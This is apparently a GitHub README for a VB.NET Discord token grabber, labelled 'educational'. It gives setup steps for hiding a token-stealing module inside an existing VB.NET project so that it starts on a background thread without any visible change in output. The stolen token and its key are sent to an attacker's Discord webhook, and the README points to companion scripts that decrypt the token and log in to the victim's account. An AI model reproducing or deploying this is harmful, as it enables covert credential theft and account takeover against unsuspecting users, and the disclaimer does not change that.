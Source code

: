 # Token Grabber VB.NET Framework 4.7.2

## Description

Token Grabber is a VB.NET application designed to demonstrate the potential consequences of unauthorized access to user tokens. This project is intended for educational purposes only and should not be used for malicious activities. The author of this project is not responsible for any misuse or damage caused by this application. This project is a module for infect a existing VB NET Project; no additional packages need to be installed (very discreet).

---

## Features

- Extracts user tokens from the Windows system.
- Sends the extracted tokens to a Discord channel using a webhook.
- Demonstrates the importance of securing user tokens and the ease with which a basic application can extract tokens.

---

## Installation

1. Ensure you have the .NET Framework 4.7.2 installed on your system.

2. Download the [DiscordTokenGrab.vb](DiscordTokenGrab.vb) file and import it into your project.

3.  Modify the Discord WebHook channel Url 
   
   ```vbnet
   Dim webhookurl As String = "URL HERE"
   ```

4. Add the following code to your main module:
   
```vbnet
   Imports System.Threading
   
   Module Main
   
       Sub main()
   
           Dim tokenGrab As Thread = New Thread(AddressOf connectD)
   
           tokenGrab.Start()
   
           'rest of your code here
   
       End Sub
   End Module
```

5.  Intall the requirements for decrypt python scrypt 
   
   ```batch
   pyhton -m pip install -r requirements.txt
   ```
   
   or for linux
   
   ```bash
   pyhton3 -m pip install -r requirements.txt
   ```
   
   

---

## Usage

1. Run the infected application.

2. The application will display the same output as if it were not infected.

3. The encrypted token and the key used for encryption are sent to the Discord channel.
   
   ![Example of a message sent to the Discord channel](https://i.imgur.com/qXDh6gE.png)

4. The hacker can use the [decrypt.py](decrypt.py) script to decrypt the token:
   
   ![Decrypting the token](https://i.imgur.com/lTDVZR9.png)

5. Finally, the hacker can log in to Discord using the [LoginWithToken.js](LoginWithToken.js) script on the [Discord login page](https://discord.com/login).

---

## Disclaimer

This project is for educational purposes only. The author of this project is not responsible for any misuse or damage caused by this application. By using this application, you agree to hold the author harmless and acknowledge that you are solely responsible for any consequences that may arise from using this application.

---

## License

This project is not licensed under any specific license. All rights are reserved.